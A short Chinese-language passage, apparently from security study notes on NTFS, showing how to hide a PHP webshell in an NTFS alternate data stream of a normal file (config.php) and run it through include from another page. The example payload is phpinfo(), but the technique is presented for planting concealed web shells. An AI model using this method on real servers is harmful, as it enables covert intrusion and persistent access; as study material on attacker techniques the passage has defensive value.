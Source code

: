 ![2](NTFS_21.jpg)  
![2](NTFS_22.jpg)  
</br>


## **隐藏webshell**
---
php的include函数可以正常解析数据流中的信息,可以将一句话加到某个正常页面文件的数据流中,再通过include进行包含解析  
正常文件:config.php
```php
<?php
...
...
...
?>
```
将payload加入正常文件数据流中(^为转义字符)`echo ^<?php phpinfo();?^> >config.php:payload.php`  
在另一个info.php文件使用include包含
```php
<?php
    include 'config.php:payload.php'
?>
```
访问info.php即可
</br>
